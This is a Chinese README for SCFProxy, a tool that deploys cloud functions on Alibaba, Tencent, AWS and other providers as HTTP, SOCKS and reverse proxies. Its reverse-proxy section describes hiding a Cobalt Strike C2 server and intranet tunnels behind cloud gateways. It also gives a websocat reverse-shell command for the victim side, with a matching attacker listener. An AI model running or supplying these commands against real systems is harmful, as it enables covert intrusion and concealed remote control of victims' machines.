




# SCFProxy

SCFProxy 是一个基于多个云服务商提供的云函数及 API 网关实现 HTTP 代理、SOCKS 代理、反向代理的工具。

它当前支持将以下云服务商的函数计算服务转换为 HTTP 和 SOCKS 代理：

- 阿里云
- 腾讯云
- 华为云
- AWS（亚马逊网络服务）
- 百度云

# 安装

前往 [Release](https://github.com/shimmeris/SCFProxy/releases/) 页面下载对应系统压缩包即可。如仍需使用 Python
旧版，请切换至 [Python](https://github.com/shimmeris/SCFProxy/tree/Python) 分支

# 配置指南

## 配置凭证

首次运行 `scfproxy` 会在**`./config/`** 目录生成 `sdk.toml` 配置文件，用于配置云厂商的 AccessKey/SecretKey。

所有配置文件（包括 `sdk.toml`、`http.json`、`socks.json`、`reverse.json`、`scfproxy.cer` 和 `scfproxy.key`）
现在都存储在程序当前目录下的 `./config/` 子目录中，方便与他人分享整个文件夹。

之后运行 `deploy/clear` 命令都将默认读取此文件，也可通过 `-c config` 参数指定。

### 全局暗号

`sdk.toml` 文件包含 `[global]` 部分，其中有 `secret_key` 字段用于访问控制：

```toml
[global]
# 全局暗号，用于验证云函数请求
# 留空则不启用验证（不推荐）
secret_key = "your_secret_key_here"
```

配置暗号后：
- 它会通过各云厂商的函数配置传递给云函数。阿里云/AWS 仍使用 `SCF_SECRET_KEY`；腾讯云内部使用其支持的变量名自动写入。
- 所有代理请求必须包含匹配的 `X-SCF-Secret-Key` 头
- 如果暗号不匹配，云函数将返回 `403 Forbidden`

**注意**：此功能现在也支持腾讯云，`deploy http` 和 `deploy http-connect` 会自动将全局暗号同步到腾讯云函数配置；阿里云 `deploy http-connect` 继续使用 `SCF_SECRET_KEY`。

**优点**：
- 所有云函数统一访问控制
- 易于分享 - 只需复制整个程序文件夹
- 防止未授权访问您的云函数

## 支持厂商

### 阿里云

#### 限制

不支持反向代理

#### 凭证

阿里云需要下述凭证:

* AccountId
* AccessKeyId
* AccessKeySecret

`AccountId` 可在主页右上角个人信息处获取


`AccessKeyId/AccessKeySecret` 可在 [IAM](https://ram.console.aliyun.com/users) 页面添加子用户生成密钥

### 腾讯云

#### 限制

部署中国大陆外地区速度极慢，目前仅支持中国大陆的区域

腾讯云 HTTP 代理现已改为使用函数 URL。腾讯云 `reverse` 代理仍依赖已下线的 API 网关能力，本项目暂未迁移到 TSE 云原生网关。

#### 凭证

腾讯云需要下述凭证:

* SecretId
* SecretKey

可在 [IAM](https://console.cloud.tencent.com/cam) 页面添加子用户生成密钥

### AWS

#### 限制

暂不支持反向代理

#### 凭证

AWS 需要下述凭证:

* AccessKeyId
* AccessKeySecret
* RoleArn

`AccessKeyId/AccessKeySecret`
可在 [IAM](https://us-east-1.console.aws.amazon.com/iamv2/home?region=us-east-1#/security_credentials) 页面生成密钥

`RoleArn` 可参考[Lambda 执行角色](https://docs.aws.amazon.com/zh_cn/lambda/latest/dg/lambda-intro-execution-role.html)
页面创建角色，然后将对应角色 ARN 填入 `sdk.toml` 文件中。

# 使用指南

## 查询

`scfproxy list` 接受以下参数：

* `provider` 用于列出目前支持的云厂商，可通过 `-m [http|http-connect|socks|reverse]` 参数过滤出支持某种代理的厂商。
* `region` 用于列出云厂商可部署的区域，需使用 `-p providers` 指定需要查看的云厂商
* `http` 列出已部署的 HTTP 代理
* `http-connect` 列出已部署的 HTTP CONNECT 隧道代理
* `socks` 列出已部署的 SOCKS 代理
* `reverse` 列出已部署的反向代理

## HTTP 代理

### 部署

```console
scfproxy deploy http -p provider_list -r region_list [-c providerConfigPath]
```

`provider_list` 与 `region_list` 传入的参数列表以 `,` 分隔。

`region_list` 支持如下 4 种形式（在 `deploy` 及 `clear` 命令上都支持）

* `*` 表示所有区域
* `area-*` 表示带有 `area` 区域前缀的所有地区
* `are-num` 表示该 area 区域支持的前 `num` 个地区(代码硬编码顺序返回)
* 标准形式，即云厂商所提供的标准 region 形式

针对参数中提供的每一个 `provider`，`region` 都会按照上述方式进行解析，不存在的 `region` 将被忽略
例子：

```console
// 查看阿里和腾讯支持的区域
scfproxy list region -p alibaba,tencent

scfproxy deploy http -p alibaba,tencent -r ap-1,eu-*,cn-shanghai
```

上面这条命令的执行结果为

1. 在 `alibaba` 上部署 `ap-northeast-1`, `eu-central-1`, ` eu-west-1`, `cn-shanghai` 区域的 http 代理
2. 在 `tencent` 上部署 `ap-beijing` 区域的 http 代理

所有通过该项目部署的 HTTP 代理将会保存在 `./config/http.json` 中，用于运行 http 代理时加载。

腾讯云的 HTTP 代理入口使用函数 URL。若本地 `http.json` 里仍保留 API 网关时代的旧腾讯 URL，可重新执行一次 `deploy http` 自动迁移并更新配置。

### 运行

首次运行会在 `./config/` 目录生成 `scfproxy.cer` 及 `scfproxy.key` 证书，需要将其导入系统证书并信任才可以代理
https 请求。

```console
scfproxy http -l address [-c cert_path] [-k key_path]
```

`-l address` 格式为 `ip:port`，可省略 ip 使用 `:port` 形式进行部署，效果等同于 `0.0.0.0:port`

HTTP 代理运行将读取 `./config/http.json` 中的记录，如果存在多个已部署的云函数（不区分厂商），每个 HTTP
请求将随机挑选其中的云函数进行代理。

#### 使用效果



### 清理

```console
scfproxy clear http -p provider_list -r region_list [--completely]
```

清理功能默认只会删除触发器，如需同时删除函数，需添加 `-e/--completely` 参数。腾讯云会优先清理函数 URL 触发器，并兼容清理旧的 API 网关触发器。


## HTTP CONNECT 隧道代理

此模式与上面的普通 `http` 代理不同：

- `http` 模式仍是现有的 MITM HTTP/HTTPS 代理，代理 HTTPS 时需要信任本地生成的 CA 证书。
- `http-connect` 模式在本地提供标准 HTTP 代理，支持 `CONNECT host:port` 方法。本地代理会通过 WebSocket 连接云函数，云函数再拨出目标 TCP 地址。HTTPS 流量仍保持客户端到目标站点的端到端加密，因此不需要本地 MITM 证书。
- 当前已实现腾讯云和阿里云 `http-connect`。腾讯云使用启用 WebSocket 的 Custom Runtime Web 函数；阿里云使用 Custom Runtime 函数和可接受 WebSocket Upgrade 的 HTTP 触发器。

### 部署

```console
scfproxy deploy http-connect -p provider_list -r region_list [-c providerConfigPath]
```

部署记录会保存在 `./config/http_connect.json`。

### 运行

```console
scfproxy http-connect -l address
```

`-l address` 格式为 `ip:port`。如果部署了多条记录，SCFProxy 会从指定的基础端口开始，为每条记录按顺序启动一个本地代理端口。

示例：

```console
scfproxy deploy http-connect -p tencent -r ap-guangzhou
scfproxy deploy http-connect -p alibaba -r cn-shanghai
scfproxy http-connect -l 127.0.0.1:9900
curl -x http://127.0.0.1:9900 https://ifconfig.me
```

### 清理

```console
scfproxy clear http-connect -p provider_list -r region_list [--completely]
```

默认只删除云端触发器并保留函数；添加 `-e/--completely` 会删除云函数并移除本地记录。

## SOCKS5 代理

### 部署

```console
scfproxy deploy socks -p provider_list -r region_list [-c providerConfigPath]
```

### 运行

```console
scfproxy socks -l socks_port -s scf_port -h address [--auth user:pass] [-c providerConfigPath]
```

`-l socks_port` 监听 socks_port，等待用户的 socks5 连接

`-s scf_port` 监听 scf_port，等待来自云函数的连接

`-h address` 用于指定云函数回连的 vps 地址

`--auth [user:pass]` 用于指定 socks 认证信息，默认无认证

socks 命令需要加载 `./config/sdk.toml` 用于触发函数，及部署后生成的 `./config/socks.json`
用于确定可以调用的函数的厂商及地区，因此需要将 `./config/` 文件夹复制到 vps 对应位置运行。

如果存在多个已部署的云函数（不区分厂商），socks 代理将触发每个云函数的执行，并监听来自他们的连接，之后每个来自客户端的 socks
连接将随机挑选其中的来自云函数的连接进行代理。


> 目前 socks 代理部署的函数超时时间为 15m，因此如果将 socks 代理用于一个长连接如 mysql 连接，需自行安排好时间，避免时间一到导致连接意外断开。
>

#### 使用效果

**长连接**

通过 socks5 代理进行 mysql 连接，可以看到连接中的 ip 地址来自于阿里云的机器，且命令之间不会出现网络中断。


**短连接**
与 http 类似，每次连接将触发函数执行


### 清理

```console
scfproxy clear socks -p provider_list -r region_list
```

## 反向代理

> **目前仅腾讯云支持反向代理，但当前实现仍依赖已下线的 API 网关能力，暂不兼容新的腾讯云账号环境**

### 部署

```console
scfproxy deploy reverse -p provider_list -r region_list -o origin [--ip ip_list]
```

`-o origin ` 用于指定需要用于反向代理的回源地址，可接受 HTTP 及 Websocket 协议。

`--ip ip_list` 用于限制访问来源，只有 `ip_list` 中的 ip 才能访问部署返回的反向代理网关地址。

### 使用场景

基于反向代理可有如下使用方法，

#### C2 隐藏

以 cobaltstrike 为例，只需将 api 的域名填入 listener 的 host

```console
scfproxy deploy reverse ... -o http://vps --ip victim
```


#### 反弹 shell 地址隐藏

借助 [websocat](https://github.com/vi/websocat) 工具可实现反弹 shell 的功能。

```console
scfproxy deploy reverse ... -o ws://vps --ip victim
```

受害者端执行：

```console
websocat ws://reverse_proxy_address  sh-c:'/bin/bash -i 2>&1' --binary -v --compress-zlib
```

攻击者 vps 执行：

```console
websocat ws-l:0.0.0.0:port - --binary -E --uncompress-zlib
```

效果如图：


#### 内网穿透地址隐藏

该使用场景需要支持 websocket 协议的内网穿透软件。

```console
scfproxy deploy reverse ... -o ws://vps --ip victim
```

以 frp 为例，客户端配置：

```ini
[common]
server_addr = reverse_proxy_domain
server_port = 80
tls_enable = true 
protocol = websocket

[plugin_sock5]
type = tcp
remote_port = 8080
plugin = socks5
use_encryption = true
use_compression = true
```

效果如图


### 清理

```console
scfproxy clear reverse -p provider_list -r region_list -o origin
```

`-o origin` 参数用于定位需要删除的服务


# TODO

- [x] 优化并添加其他厂商的反向代理功能
- [ ] 优化代码
- [ ] 美化输出及错误处理
- [ ] 增加华为云，GCP，Azure 等其他云厂商
